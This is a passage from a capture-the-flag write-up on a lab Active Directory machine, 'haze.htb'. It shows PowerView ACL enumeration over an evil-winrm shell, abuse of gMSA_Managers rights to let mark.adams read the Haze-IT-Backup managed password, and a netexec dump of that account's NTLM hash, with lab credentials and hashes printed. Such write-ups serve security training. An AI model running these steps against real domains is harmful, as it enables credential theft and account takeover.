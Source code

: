 Or the `Find-InterestingDomainAcl` function in [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):

```

evil-winrm-py PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1 PowerView.ps1
Uploading /opt/PowerSploit/Recon/PowerView.ps1: 768kB [00:03, 262kB/s]
[+] File uploaded successfully as: C:\programdata\PowerView.ps1
evil-winrm-py PS C:\programdata> . .\PowerView.ps1
evil-winrm-py PS C:\programdata> Find-InterestingDomainAcl -ResolveGUIDS | ?{$_.IdentityReferenceName -match "gMSA_Managers"}

ObjectDN                : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : WriteProperty
ObjectAceType           : ms-DS-GroupMSAMembership
AceFlags                : None
AceType                 : AccessAllowedObject
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-323145914-28650650-2368316563-1107
IdentityReferenceName   : gMSA_Managers
IdentityReferenceDomain : haze.htb
IdentityReferenceDN     : CN=gMSA_Managers,CN=Users,DC=haze,DC=htb
IdentityReferenceClass  : group

```

### Recover Credentials

I’ll set the users able to retrieve the password to mark.adams:

```

evil-winrm-py PS C:\> Set-ADServiceAccount Haze-IT-Backup -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"

```

Now I can dump the hash using `netexec`:

```

oxdf@hacky$ netexec ldap dc01.haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) (signing:None) (channel binding:Never)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [*] Getting GMSA Passwords
LDAP        10.10.11.61     389    DC01             Account: Haze-IT-Backup$      NTLM: 4de830d1d58c14e241aff55f82ecdba1     PrincipalsAllowedToReadPassword: mark.adams

```

It won’t work over NTLM auth:

```

oxdf@hacky$ netexec smb dc01.haze.htb -u Haze-IT-Backup -H 4de830d1d58c14e241aff55f82ecdba1
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup:4de830d1d58c14e241aff55f82ecdba1 STATUS_LOGON_FAILURE 

```

